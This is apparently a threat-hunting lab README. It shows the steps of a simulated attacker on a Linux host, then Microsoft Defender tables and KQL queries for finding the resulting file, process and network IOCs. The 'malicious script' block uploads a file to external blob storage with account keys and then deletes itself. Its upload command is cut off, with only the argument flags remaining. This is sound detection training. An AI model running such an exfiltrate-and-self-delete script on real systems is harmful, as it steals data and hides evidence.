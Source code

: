 <h1 align="center">SCENARIO: ESCALATION OF PRIVILEGES & DATA EXFILTRATION</h1>

<p align="center">
  <img width="500" src="https://github.com/user-attachments/assets/a0adf9a5-0da7-4f59-a5d6-6615358b3f41" alt="Linux" />
</p>

## STEPS THE "BAD ACTOR" TOOK TO CREATE LOGS AND IOCs

### Step 1: **Switch to the Root User's Home Directory** 
```bash
cd
```

---

### Step 2: **Create and Prepare the Script File** 
```bash
touch super_secret_script.sh
chmod +x super_secret_script.sh
nano super_secret_script.sh
```

---

### Step 3: **Write the Malicious Script** 
```bash
#!/bin/bash

  --account-name $ACCOUNT_NAME \
  --account-key $ACCESS_KEY \
  --container-name $CONTAINER_NAME \
  --file $FILE_NAME \
  --name $BLOB_NAME

rm -- "$0"
```

---

### Step 4: **Execute the Script** 
```bash
./super_secret_script.sh
```

---


## TABLES USED TO DETECT IOCS
| **Parameter**       | **Description**                                                                                                                |
|---------------------|--------------------------------------------------------------------------------------------------------------------------------|
| **Table**           | `DeviceFileEvents`                                                                                                             |
| **Info**            | https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table                                               |
| **Purpose**         | To find privilege escalation attempts linked to file changes or creation of backdoor scripts. |

| **Parameter**       | **Description**                                                                              |
|---------------------|----------------------------------------------------------------------------------------------|
| **Table**           | `DeviceProcessEvents`                                                                        |
| **Info**            | https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table             |
| **Purpose**         | To detect execution of malicious scripts or binaries on the system. |
 
| **Parameter**       | **Description**                                                                                                                                    |
|---------------------|----------------------------------------------------------------------------------------------------------------------------------------------------|
| **Name**            | `DeviceNetworkEvents`                                                                                                                              |
| **Info**            | https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table                                                          |
| **Purpose**         | To validate data exfiltration by identifying outbound connections to suspicious or external endpoints. |

---

## QUERIES USED
```kql
DeviceFileEvents
| where DeviceName contains "willis-linux-mde"
| where ActionType == "FileCreated"
| order by Timestamp desc
```

```kql
DeviceFileEvents
| where DeviceName contains "willis-linux-mde"
| where ActionType == "FileCreated"
| where FileName contains "secret"
| order by Timestamp desc
| project Timestamp, DeviceName, ActionType, FileName, InitiatingProcessCommandLine
```

```kql
DeviceFileEvents
| where DeviceName contains "willis-linux-mde"
| where ActionType == "FileCreated"
| project Timestamp, DeviceName, FileName, InitiatingProcessCommandLine, InitiatingProcessParentFileName
| order by Timestamp desc
```

```kql
DeviceProcessEvents
| where Timestamp >= datetime(2025-07-08T20:55:51.372756Z)
| where DeviceName contains "willis-linux-mde"
| project Timestamp, DeviceName, ActionType, InitiatingProcessCommandLine
| order by Timestamp asc
```

```kql
DeviceNetworkEvents
| where Timestamp >= datetime(2025-07-08T20:55:51.372756Z)
| where DeviceName contains "willis-linux-mde"
| project Timestamp, ActionType, InitiatingProcessCommandLine
| order by Timestamp asc
```

---

## CREATED BY
**Author**: `Briana Willis`<br>
**Contact**: [`https://www.linkedin.com/in/brianalwillis/`](https://www.linkedin.com/in/brianalwillis/)<br>
**Date**: `2025-07-09`

## VALIDATED BY
**Reviewer Name**:<br> 
**Reviewer Contact**:<br> 
**Validation Date**: 

---

## REVISION HISTORY
| **Version** | **Date**     | **Modified By**|
|-------------|--------------|----------------|
| 1.0         | `2025-07-09` | `Briana Willis`   


